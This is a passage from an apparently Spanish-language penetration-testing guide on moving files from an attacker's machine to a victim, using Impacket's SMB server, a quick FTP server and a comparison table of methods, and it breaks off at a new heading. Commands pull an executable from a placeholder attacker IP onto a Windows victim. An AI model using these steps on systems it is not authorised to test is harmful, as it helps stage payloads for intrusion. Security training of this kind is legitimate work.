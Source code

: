#### ✅ Instalación

Primero instala Impacket (si aún no lo tienes):

```bash
pip install impacket
```

Luego:

```bash
impacket-smbserver share /ruta/del/archivo -smb2support
```

Desde Windows (víctima):

```powershell
copy \\<IP-del-atacante>\share\archivo.exe .
```

---

### 📁 Parte 5: FTP rápido (si no hay opciones)

En el atacante:

```bash
sudo apt install vsftpd
python3 -m pyftpdlib -p 21
```

Desde la víctima:

```bash
ftp <IP-del-atacante>
# login como anonymous, luego usa get nombre_de_archivo
```

---

### 🧠 Recapitulación

| Método                         | Usa  | Ventajas                          | Desventajas                      |
| ------------------------------ | ---- | --------------------------------- | -------------------------------- |
| Python HTTP Server + curl/wget | HTTP | Muy rápido y fácil                | Requiere acceso HTTP y curl/wget |
| Netcat                         | TCP  | Funciona en sistemas sin curl     | No encriptado                    |
| SCP/SFTP                       | SSH  | Seguro, cifrado                   | Requiere SSH y credenciales      |
| SMB (smbserver.py)             | SMB  | Ideal para víctimas Windows       | Detectable por antivirus         |
| FTP                            | FTP  | Funciona si no hay otras opciones | Inseguro, sin cifrado            |

---

### ✅ Ejemplo completo paso a paso

#### 🎯 Objetivo
